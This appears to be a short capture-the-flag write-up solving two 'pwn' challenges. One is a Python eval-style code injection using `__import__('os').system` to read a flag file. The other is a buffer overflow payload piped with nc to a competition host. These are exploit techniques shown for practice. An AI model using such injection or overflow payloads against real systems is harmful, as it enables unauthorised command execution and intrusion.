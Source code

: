 # Brief Solution

## pwn1
1. Check file type, discover it is a python compiled binary.
2. Decompile binaruy using uncompyle6 to get source code.
3. Input function is used to take user input, it takes any user input as literal python coe.
4. Use python code to open flag.txt file such as: `__import__('os').system("cat flag.txt")`

## pwn2
`python2 -c 'print "\x41" * 32 + "\x8b\x98\x04\x08"' | nc pwn2.ihack.sibersiaga.my 1389`